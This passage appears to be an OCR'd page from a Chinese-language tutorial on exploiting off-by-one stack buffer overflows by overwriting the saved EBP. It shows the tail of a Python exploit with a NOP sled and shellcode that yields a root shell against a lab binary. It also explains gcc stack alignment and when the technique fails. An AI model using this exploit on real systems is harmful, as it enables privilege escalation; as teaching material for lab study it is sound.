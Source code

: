 ```py
buf += conv(ret_addr)
buf += "\x90" * 30
buf += scode
buf += "A" * 22

print "Calling vulnerable program"
call(["./vuln", buf])
```

执行上面的exploit程序给我们root shell，如下所示：

```
$ python exp.py 
Calling vulnerable program
# id
uid=1000(sploitfun) gid=1000(sploitfun) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare),1000(sploitfun)
# exit
$
```

off by one看起来像一个愚蠢的bug，它令人奇怪的地方是开发人员造成这么小的错误可能会导致任意代码执行。off by one总是导致任意代码执行吗？

**如果调用者的EBP不存在于目的地缓冲区之上怎么办？**

这个问题的答案很简单，我们不能用EBP覆写技术来利用它!(但是一些其他的利用技术可能是可能的，因为代码中存在一个bug)

在什么情况下，调用者的EBP不会出现在目标缓冲区上方？

情况1：目标缓冲区之上可能存在其他局部变量。

```c
...
void bar(char* arg) {
 int x = 10; /* [1] */
 char buf[256]; /* [2] */ 
 strcpy(buf, arg); /* [3] */ 
}
...
```

因此，在这些情况下，在缓冲区`buf`和EBP的结尾之间找到了一个局部变量，它不允许我们覆盖EBP的LSB！

情况2：对齐空间 - 默认情况下，gcc将堆栈空间对齐为16字节边界，即在创建堆栈空间之前）ESP的最后4位是0并且使用`and`指令，如下面的函数反汇编所示。

```
Dump of assembler code for function main:
 0x08048497 <+0>: push %ebp
 0x08048498 <+1>: mov %esp,%ebp
 0x0804849a <+3>: push %edi
 0x0804849b <+4>: and $0xfffffff0,%esp               //Stack space aligned to 16 byte boundary
 0x0804849e <+7>: sub $0x20,%esp                     //create stack space
...
```

因此，在这些情况下，在缓冲区`buf`和EBP的结尾之间找到一个对齐空间（最多12个字节），这不允许我们覆盖EBP的LSB！

因为这个原因，我们在编译我们漏洞代码（vuln.c）时添加了gcc参数`-mpreferred-stack-boundary = 2`!

请求帮助!!:如果在创建堆栈空间之前，ESP已经在16字节边界层上对齐了？在这种情况下，即使程序使用gcc的16字节的默认堆栈边界进行编译，EBP覆写也是可行的。但到目前为止，我没有创建这样一个工作代码。在我创建堆栈空间之前的所有尝试中，ESP在16字节边界上不对齐，无论如何谨慎地创建我的堆栈内容，gcc为本地变量添加了一些额外的空间，这使得ESP对齐不到16字节边界。如果任何人有工作代码或有一个答案:为什么ESP总是不对齐，请让我知道。

参考

<http://seclists.org/bugtraq/1998/Oct/109>